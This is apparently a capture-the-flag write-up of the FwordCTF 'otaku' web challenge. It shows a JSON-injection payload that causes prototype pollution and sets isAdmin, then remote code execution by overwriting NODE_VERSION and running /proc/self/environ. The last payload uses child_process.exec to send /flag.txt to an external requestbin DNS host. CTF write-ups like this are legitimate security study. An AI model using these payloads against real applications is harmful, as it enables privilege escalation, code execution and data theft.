 ```yaml
---
layout: post
title: "FwordCTF otaku solution"
date: 2020-09-01
---
```


The challenge' info card gives us the website's source code and a link to the website itself.

#### Info card:


![infocard](/assets/posts/fwordctf-otaku/images/banner.png)


#### Website's first page:


![foothold](/assets/posts/fwordctf-otaku/images/foothold.PNG)


As you can see, there are login and register buttons so I'm going to create new account.

After creating new account, my homepage looks like this:

#### Home page: 


![homepage](/assets/posts/fwordctf-otaku/images/homepage.png)


#### Update details page: 


![updatepage](/assets/posts/fwordctf-otaku/images/updatepage.png)


The update page lets me update my username and favorite anime, let's read it's source code on src/app.js:

#### Source:


![uploadsource](/assets/posts/fwordctf-otaku/images/uploadsource.png)


The update request uses HTTP post request to send the new username and favorite anime to the server, then it inserts the data unsafely into json string and parse it to the variable `query`.

This unsafe json parse can lead to prototype pollution, because we can inject keys to the json string and `JSON.parse` treats the `__proto__` attribute as regular one and won't drop it.

The server will send our object to Mongo DB, Mongo will return json document which is created by processing a query object and the server will save a copy of the document's keys as a new object, the keys' copy operation will pollute the prototype of newUser.

The new object is going to affect our permissions.

note: We can't inject isAdmin key to the JSON because it will set it to 0 ( src/app.js, line 160), 0 is not admin and we won't get the access.

We should inject the `__proto__` key with object value which contains the key isAdmin with the value 1, `newUser.isAdmin === 1` will result `true` via the prototype chain ([prototype chain](https://developer.mozilla.org/en-US/docs/Web/JavaScript/Inheritance_and_the_prototype_chain)).

Only one problem - Mongo DB drops by default the `__proto__` key from every document. Fortunately, the server use `.trim()` on the document's keys, we can inject `__proto__` with white spaces like `"  __proto__"` , Mongo won't drop it and the `.trim()` will drop the whitespaces. We got prototype pollution, let's build our payload:

The JSON string looks like this :

`{"$set":{"username":"${req.body.username}","anime":"${req.body.anime}"}}`

So we can set the value of anime to

`"," __proto__" : {"isAdmin":1}, "bla":"bla`

Explanation: The first quotation marks used to close anime's quotation marks then we need a comma for next key in JSON.

The `__proto__` key with object value which contains isAdmin key with the value 1 for the prototype pollution and another key-value to close the open quotation marks from the anime, so the JSON string after posting our message will look like this:

`{"$set":{"username":"om3r-v","anime":""," __proto__" : {"isAdmin":1}, "bla":"bla"}}`


After it's sent to the server our session will contain isAdmin value set to 1, so we can access the admin panel (the panel path can be found within the source code: src/app.js , line number 182).

#### admin panel:


![adminpanel](/assets/posts/fwordctf-otaku/images/adminpanel.png)



In the admin panel, we can set arbitrary environment variable of the current process and run js file as a child process using node.


### /proc/self/environ 

`/proc/self/environ` file is a file which contains all the environment variables of the current process. 
 Run this file with node will cause a syntax error because node will try to execute the first line which is probably not a valid javascript.
 Our goal is to causing the first line at /proc/self/environ to look like a valid javascript and it will be executed.

Let's take the docker file from the source code and create a copy of the server's environment.
After building the docker image, let's list the environment variables of the node process:

![envlist](/assets/posts/fwordctf-otaku/images/envlistdocker.png)

The first environment variable is `NODE_VERSION`, we can override it to valid JS code and execute the file `/proc/self/environ` thanks to the admin panel functionality.
Let's try it locally. I copied part of the admin panel' source code to make a PoC.

### local PoC:


![localresearch](/assets/posts/fwordctf-otaku/images/localresearch.PNG)


We got RCE ! the flag is located at /flag.txt (from the challenge's info card), let's receive it with DNSbin.
Admin panel payload:


`envname: NODE_VERSION`

`env: require("child_process").exec("ping -c 1 $(cat /flag.txt).53cddaf08c0b9d06185e.d.requestbin.net");process.exit()//`

`path: /proc/self/environ`

#### before execution:


![before exec](/assets/posts/fwordctf-otaku/images/adminpanel2.PNG)


#### DNSbin result / receiving the flag:


![flag](/assets/posts/fwordctf-otaku/images/dnsbin.PNG)


